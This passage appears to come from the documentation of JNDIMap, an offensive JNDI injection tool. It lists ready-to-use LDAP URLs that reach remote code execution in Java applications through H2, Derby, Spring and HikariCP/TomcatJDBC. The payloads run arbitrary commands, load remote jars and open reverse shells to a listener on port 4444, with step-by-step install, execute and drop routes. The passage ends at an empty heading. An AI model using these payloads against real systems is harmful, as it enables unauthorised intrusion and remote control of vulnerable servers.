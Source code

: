 ```bash
# Based on MidiSystem.getSoundbank method, only JRE + H2 dependency are required
ldap://127.0.0.1:1389/Factory/H2/JRE/Soundbank/Command/open -a Calculator
ldap://127.0.0.1:1389/Factory/H2/JRE/Soundbank/ReverseShell/127.0.0.1/4444

# based on ClassPathXmlApplicationContext, requires Spring dependency
ldap://127.0.0.1:1389/Factory/H2/JRE/Spring/Command/open -a Calculator
ldap://127.0.0.1:1389/Factory/H2/JRE/Spring/ReverseShell/127.0.0.1/4444
```

### Derby

#### Derby SQL RCE

Support executing commands and reverse shell

```bash
# 1. load remote jar and create procedures (will automatically create the database)
ldap://127.0.0.1:1389/Factory/Derby/Install/<database>

# 2. execute command/reverse shell
ldap://127.0.0.1:1389/Factory/Derby/Command/<database>/open -a Calculator
ldap://127.0.0.1:1389/Factory/Derby/ReverseShell/<database>/ReverseShell/127.0.0.1/4444

# 3. drop the database to release memory
ldap://127.0.0.1:1389/Factory/Derby/Drop/<database>
```

Please note that the connectionInitSql/initSQL parameter of HikariCP/TomcatJDBC does not support executing multiple SQL statements at once, so the **Install** process above needs to be written separately, taking HikariCP as an example

```bash
# 1. load remote jar (will automatically create the database)
ldap://127.0.0.1:1389/HikariCP/Derby/InstallJar/<database>

# 2. add the jar to the classpath
ldap://127.0.0.1:1389/HikariCP/Derby/AddClassPath/<database>

# 3. create a procedure to execute commands
ldap://127.0.0.1:1389/HikariCP/Derby/CreateCmdProc/<database>

# 4. create a procedure to execute reverse shell
ldap://127.0.0.1:1389/HikariCP/Derby/CreateRevProc/<database>

# subsequent JNDI URL is the same as above
```

In order to prevent malicious jars from landing, JNDIMap chooses to use the `jdbc:derby:memory:<database>` form of JDBC URL to create the database in memory

Therefore, it is best not to execute the Install/InstallJar route multiple times, and remember to Drop the database to release memory

#### Derby Master-Slave Replication Deserialization RCE
